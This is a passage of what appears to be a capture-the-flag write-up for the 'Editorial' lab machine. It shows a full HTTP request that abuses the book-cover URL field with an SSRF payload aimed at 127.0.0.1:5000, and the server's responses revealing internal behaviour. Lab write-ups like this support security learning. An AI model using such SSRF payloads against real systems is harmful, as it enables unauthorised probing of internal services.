### Response in Full

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 16 Jun 2024 08:56:52 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
Content-Length: 61

/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg
```

# SSRF Test #3 

Typically python web applications are hosted on port 5000 and 8000. After checking port 5000 the reponse was totally different from the previous which is interesting. This time `static/uploads/e62233be-45c0-42a4-a1c9-4af328cffec8` was returned instead of the default `unsplash_photo`. 

### Request in Full

```
POST /upload-cover HTTP/1.1
Host: editorial.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------72263533922933545642529569388
Content-Length: 361
Origin: http://editorial.htb
Connection: keep-alive
Referer: http://editorial.htb/upload

-----------------------------72263533922933545642529569388
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:5000
-----------------------------72263533922933545642529569388
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


-----------------------------72263533922933545642529569388--

```

### Response in Full

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 16 Jun 2024 08:58:17 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
Content-Length: 51

static/uploads/e62233be-45c0-42a4-a1c9-4af328cffec8
```
